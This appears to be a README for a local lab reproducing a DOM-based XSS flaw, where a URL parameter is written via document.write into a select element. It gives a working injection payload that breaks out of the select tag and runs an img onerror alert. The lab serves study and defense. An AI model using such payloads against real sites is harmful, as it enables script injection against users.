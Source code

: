 # DOM XSS in document.write sink using source location.search inside a select element

## SYNOPSIS
- Created a static site has a select element
- ```pcapId``` grabs the query string value of the url
- Concatenates ```pcapId``` as an option element of the parent select element
- Renders the the select element and its corresponding options onto the screen

## PAYLOAD
- URL encoded ```http://localhost:8080/?pcap=%22%3E%3C/select%3E%3Cimg%20src=1%20onerror=alert(1)%3E```
- Plaintext ```http://localhost:8080/?pcap="></select><img%20src=1%20onerror=alert(1)>```

## How to:
- Run build_docker
- Use the payload above
- You should see an alert window

### NOTE
- Tested on both Safari and Chrome
- Only works on CHROME

#### Reference
DOM XSS in document.write sink using source location.search inside a select element \
https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-document-write-sink-inside-select-element
